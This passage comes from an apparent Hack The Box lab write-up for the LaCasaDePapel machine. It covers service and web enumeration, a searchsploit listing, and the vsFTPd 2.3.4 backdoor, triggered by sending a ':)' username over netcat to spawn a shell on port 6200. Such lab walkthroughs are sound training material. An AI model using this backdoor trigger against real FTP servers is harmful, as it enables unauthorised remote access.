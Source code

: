 Here we are using ```vsFTPd 2.3.4``` and it doesn't allow ```anonymous login``` as mentioned in the nmap scan result

But ```vsFTPd 2.3.4``` has a famous backdoor exploit

### Enumerating webapps

Visiting our webapp with ```lacasadepapel.htb``` or its resolved IP gives me this,

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/LaCasaDePapel/img/1.png)

The QR Code and the input fields are rabbit holes

It also runs on ```HTTPS``` on port ```443``` with SSL

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/LaCasaDePapel/img/2.png)

There is a slight difference in the webapp

It is asking for ```Client Certificate``` to continue, seems like they have already got a ```Server Certificate```

## Finding suitable exploits through searchsploit

We know that ```vsFTPd 2.3.4``` can be exploited

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ searchsploit vsftpd 2.3.4
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                         | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)            | unix/remote/17491.rb
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

We can use any of the following, but it is not such a hard exploit

The only thing we need to remember to trigger this ```vsFTPd 2.3.4``` exploit is to pass ```:)``` with the ```username``` in FTP login, so that it can spawn a reverse shell in port ```6200```

## Gaining Access

### vsFTPd 2.3.4 backdoor exploit

Its time to trigger our ```vsFTPd 2.3.4``` exploit

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc 10.10.10.131 21  
220 (vsFTPd 2.3.4)
USER monish:)
331 Please specify the password.
PASS hackednasa
```
